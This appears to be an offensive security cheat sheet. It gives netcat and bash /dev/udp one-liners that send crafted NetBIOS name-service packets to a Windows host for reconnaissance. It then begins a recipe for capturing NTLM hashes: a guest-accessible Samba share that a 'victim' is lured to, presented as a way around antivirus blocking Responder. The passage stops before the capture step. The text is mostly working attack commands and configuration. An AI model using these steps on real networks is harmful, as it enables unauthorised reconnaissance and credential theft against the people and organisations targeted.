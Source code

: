 ## >> NetBIOS Name Service Recon Without Windows Utilities

Attacking machine is Linux that has netcat or bash UDP device support.  Windows host 192.168.1.166 is being queried in this example.

**Using nc**

`echo -n 12340000000100000000000020434b4141414141414141414141414141414141414141414141414141414141410000210001 | xxd -r -p | nc -u -w 1 192.168.1.166 137 | strings`

Same technique using a random transaction ID:

`(echo -n $(openssl rand -hex 2); echo -n 0000000100000000000020434b4141414141414141414141414141414141414141414141414141414141410000210001) | xxd -r -p | nc -u -w 1 192.168.1.166 137 | strings`

**Using bash UDP device**

`exec 5<>/dev/udp/192.168.1.166/137; echo -n 12340000000100000000000020434b4141414141414141414141414141414141414141414141414141414141410000210001 | xxd -r -p >&5; timeout 1 strings <&5`

Same technique using a random transaction ID:

`exec 5<>/dev/udp/192.168.1.166/137; (echo -n $(openssl rand -hex 2); echo -n 0000000100000000000020434b4141414141414141414141414141414141414141414141414141414141410000210001) | xxd -r -p >&5; timeout 1 strings <&5`

## >> Capturing NTLM hashes with Samba and tcpdump

If Windows AV (e.g. Symantec Endpoint Protection - SEP) is interfering with NTLM credential grabbing attacks using `Responder.py`, try this.  This assumes your attacking computer and victim computer are in the same DNS namespace.  The victim can be either a domain-joined computer or standalone workgroup.  This example uses the my.lab domain and the Samba server is smb.my.lab.

**Setup a minimal Samba server**

Edit `/etc/samba/smb.conf`<br />
```
[global]
workgroup = WORKGROUP
server role = standalone server
map to guest = bad user
security = user
lanman auth = no
ntlm auth = no
ntlmv2 auth = yes
[files]
path = /samba
browseable = yes
read only = yes
guest ok = yes
force user = nobody
```

Create the folder and file that the victim will access.<br />
```
mkdir /samba
chmod 777 /samba
chown nobody /samba
echo "this is a test" > /samba/test.txt
```
